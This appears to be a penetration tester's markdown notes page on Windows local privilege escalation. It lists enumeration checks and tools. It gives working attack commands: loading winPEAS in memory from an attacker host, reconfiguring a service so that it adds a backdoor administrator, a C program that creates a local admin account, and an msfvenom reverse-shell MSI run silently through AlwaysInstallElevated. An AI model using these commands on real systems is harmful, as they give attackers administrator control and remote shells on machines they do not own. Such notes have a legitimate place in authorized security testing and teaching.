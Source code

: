 ```yaml
---
title: Windows Privilege Escalation
---
```


Local [[notes/mitre-attack/privilege-escalation]] on [[notes/windows/index]].

Common checks ([source](http://web.archive.org/web/20230804173720/https://scribe.rip/@specterops/challenges-in-post-exploitation-workflows-2b3469810fe9)):

- processes including integrity levels and backing file
- service with unquoted service path
- service with writable backing file
- service with insecure security descriptor
- scheduled task with writable backing file
- named pipes including originating processes and SDDLs
- open TCP/UDP ports and their originating processes
- drivers currently installed, including backing files
- existing handles with overly permissive access rights
- recent temporary files and their SDDL
- various registry settings

Run a ton of checks.

=== "[[notes/tools/winpeas]]"
    ~~~ powershell
    $a=[System.Reflection.Assembly]::Load([byte[]](iwr -useb 'http://attacker.corp.local/winpeas-x64.exe' | Select-Object -ExpandProperty Content))
    [winPEAS.Program]::Main('wait')
    ~~~

Test if credentials are valid.

~~~ powershell
$c = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList '.\nobody',(ConvertTo-SecureString -AsPlainText -Force 'passw0rd')
Start-Process -Credential $c -FilePath whoami.exe -ArgumentList '/all' -WindowStyle hidden -Wait -RedirectStandardOutput out.txt -RedirectStandardError err.txt
~~~

Other tools:

- [Seatbelt](https://github.com/GhostPack/Seatbelt)

Untested tools:

- [PipeViewer](https://github.com/cyberark/PipeViewer), shows detailed information about named pipes on Windows
- [Crassus](https://github.com/vullabs/Crassus)
- [SharpUp](https://github.com/ghostpack/sharpup), C# port of various [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) functions
- [beroot](https://github.com/AlessandroZ/BeRoot)
- [Windows Exploit Suggester Next Generation ](https://github.com/bitsadmin/wesng), checks Windows version for known vulnerabilities, processes output of `systeminfo` on Linux
- [ProtectionChecks.ps1](https://gist.github.com/jsecurity101/6b9e87f5a428f31d41ffc8c1ee05a999), checks whether a process is running as PPL

References:

- [Escalating Privileges via Third-Party Windows Installers](https://web.archive.org/web/20230720190244/https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers)
- [The Print Spooler Bug that Wasn’t in the Print Spooler - Maddie Stone & James Forshaw - OffensiveCon23](https://www.youtube.com/watch?v=H03b0UaogVs), exploiting Windows side-by-side assemblies
- [Awesome Windows logical bugs](https://github.com/sailay1996/awesome_windows_logical_bugs)
- [book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
- [Payloads all the Things - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

# Insecure File Permissions

Search with [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) for writable files.

~~~ bat
accesschk.exe -accepteula -nobanner -u -w -s $env:USERNAME C:\
~~~

Especially check writable files and directories in the system path.
This can be exploited with e.g. [StorSvc](https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc).

~~~ bat
reg.exe query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
~~~

Check the permissions the current user has on a file.

=== "builtin"
    ~~~ bat
    icacls.exe "C:\Program Files\Example\Service.exe"
    ~~~

    An output like `BUILTIN\Users:(I)(F)` is quiet bad, it means any user can overwrite it.

    Mask | Permissions
    -----|------------
    F    | Full access
    M    | Modify access
    RX   | Read and execute access
    R    | Read-only access
    W    | Write-only access

=== "PowerShell"
    ~~~ powershell
    Get-Acl "C:\Program Files\Example\Service.exe"
    ~~~

Take file ownership and grant yourself full access.

~~~ bat
takeown.exe /F .\example.exe
cacls.exe .\example.exe /E /G %USERNAME%:F
~~~

Untested tools:

- [UserWritableLocations.ps1](https://gist.github.com/hinchley/ade9528e5ce986e9a8131489ad852789)
- [find_writable.ps1](https://github.com/0xC0D1F1ED/find_writable_files/blob/master/find_writable.ps1)

# Services

Get the current service status including the PID.

~~~ bat
sc.exe queryex snmptrap
~~~

Get the current service configuration.

~~~ bat
sc.exe qc snmptrap
~~~

## Insecure Service Security Descriptor

Set the account to `NT Authority\System`.

~~~ bat
sc.exe config snmptrap obj= "NT AUTHORITY\System"
~~~

Then change the executable to a command that adds a local admin.

~~~ bat
sc.exe config snmptrap binPath= "cmd.exe /c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

References:

- [Viewing Service ACLs](https://web.archive.org/web/20230131040322/https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)

## Unquoted Service Path

The service must have a space in the absolute path to its executable and the path must not be enclosed in quotation marks.
Given the path `C:\Program Files\My Program\My Service\service.exe` check if you can write any of the following files:

~~~
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
~~~

If that's the case, place your malicious binary there and wait for the service to restart.

## Writable Service Binary

Replace the service binary with an executable that adds a new local admin.

`./evil.c`:

~~~ c
#include <stdlib.h>

int main() {
  system("net user backdoor passw0rd /add");
  system("net localgroup administrators backdoor /add");
  return 0:
}
~~~

If you have `SeShutdownPrivilege` reboot the system, otherwise wait for the service to restart.

~~~ bat
shutdown.exe /r /t 0
~~~

# Always Install Elevated

If the `AlwaysInstallElevated` registry key is set to `1`, unprivileged users can run MSI installers with admin privileges.

~~~ bat
reg.exe query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg.exe query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
~~~

Generate a reverse shell payload.

~~~ bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.196 LPORT=7101 -f msi -o ./pwn.msi
~~~

Execute the MSI.

~~~ bat
msiexec.exe /quiet /qn /i .\pwn.msi
~~~

